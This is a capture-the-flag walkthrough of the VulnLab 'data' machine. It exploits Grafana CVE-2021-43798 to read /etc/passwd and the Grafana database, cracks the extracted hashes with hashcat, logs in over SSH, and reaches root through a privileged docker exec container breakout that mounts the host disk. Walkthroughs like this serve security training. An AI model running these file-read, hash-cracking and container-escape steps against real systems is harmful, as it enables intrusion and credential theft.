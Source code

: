 ```yaml
---
layout: post
title:  "VulnLab | data"
description: "walkthrough of data machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ./assets/img/ctf/vulnlab/data/data1.png
  alt: "data.vl"
category: "VulnLab"
tags: ["Linux", "CVE-2021-43798", "grafana database", "docker container"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[data](https://www.vulnlab.com/machines) is 

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.95.219
```
![rustscan](./assets/img/ctf/vulnlab/data/data2.png)

### Services Scanning
```bash
nmap -p22,3000 -sC -sV -v -oN data.full 10.10.95.219
```
```text
# Nmap 7.94SVN scan initiated Mon Nov 11 18:35:54 2024 as: nmap -p22,3000 -sC -sV -oN data.full 10.10.95.219
Nmap scan report for 10.10.95.219
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:a9:1e:f7:a9:40:ee:1d:43:42:9c:61:26:4d:db:a2 (RSA)
|   256 99:94:2a:bb:8b:8c:05:99:c1:04:fd:6a:c9:6e:c2:f9 (ECDSA)
|_  256 b5:bf:ea:dd:4e:04:a7:1d:54:a3:6d:55:92:b3:96:63 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:04 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:10 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=11/11%Time=67324083%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Co
SF:ntrol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nE
SF:xpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cook
SF:ie:\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Pro
SF:tection:\x201;\x20mode=block\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x201
SF:7:36:04\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Fo
SF:und</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\
SF:nCache-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\
SF:nPragma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20H
SF:ttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Fra
SF:me-Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x
SF:20Mon,\x2011\x20Nov\x202024\x2017:36:10\x20GMT\r\nContent-Length:\x200\
SF:r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20cha
SF:rset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLS
SF:SessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Hostname
```bash
echo '10.10.95.219  data.vl'  >> /etc/hosts
```

## Foothold

### Port 3000
![grafana](./assets/img/ctf/vulnlab/data/data3.png)

```text
grafana v8.0.0 => CVE-2021-43798 => Unauthenticated file Read
```
```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/passwd -o test.txt
```
![/etc/passwd](./assets/img/ctf/vulnlab/data/data4.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /var/lib/grafana/grafana.db -o grafana.db
```
![grafana.db](./assets/img/ctf/vulnlab/data/data5.png)

```sql
select email,password,salt from user;
```
![grafana.db](./assets/img/ctf/vulnlab/data/data6.png)

```bash
python3 grafana2hashcat.py -o hashcat.txt hashes.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data7.png)

```sh
hashcat -m 10900 hashcat.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data8.png)

### Port 22
```bash
ssh boris@data.vl
```
![boris ssh](./assets/img/ctf/vulnlab/data/data9.png)


## Privilege Escalation
```sh
sudo -l
```
![docker exec](./assets/img/ctf/vulnlab/data/data10.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/hosts -o test.txt
```
![container hostname](./assets/img/ctf/vulnlab/data/data11.png)

```bash
sudo /snap/bin/docker exec --user root --privileged -it e6ff5b1cbc85 sh
```
![container hostname](./assets/img/ctf/vulnlab/data/data12.png)

```bash
cat /proc/1/status | grep -i "seccomp"
df -h
```
![container hostname](./assets/img/ctf/vulnlab/data/data13.png)
```bash
mkdir -p /mnt/juggernaut 
mount /dev/xvda1 /mnt/juggernaut
ls -l /mnt/juggernaut
```
![container hostname](./assets/img/ctf/vulnlab/data/data14.png)

```bash
ls -l /mnt/juggernaut/root
```
![container hostname](./assets/img/ctf/vulnlab/data/data15.png)


## Kill Chain Summary
1. Exploit CVE-2021-43798 to get File Read Capabilities on the box.
2. Read grafana database.
3. Using grafana2hashcat and hashcat crack grafana database entries.
4. User boris is allowed to run `/snap/bin/docker exec *` as root without a password.
5. Using the docker exec command abuse the grafana container to become root.


## References
1. FootHold<br>
[exploit](https://gist.github.com/bryanmcnulty/0f013fb75e94140bae70de2b0e986e45)<br>
[grafana2hashcat](https://github.com/iamaldi/grafana2hashcat)<br>
[grafana_exploits](https://github.com/persees/grafana_exploits)<br>

2. Priv Escalation<br>
[docker exec](https://docs.docker.com/reference/cli/docker/container/exec/)<br>
[privileged container breakout](https://juggernaut-sec.com/docker-breakout-lpe/)<br>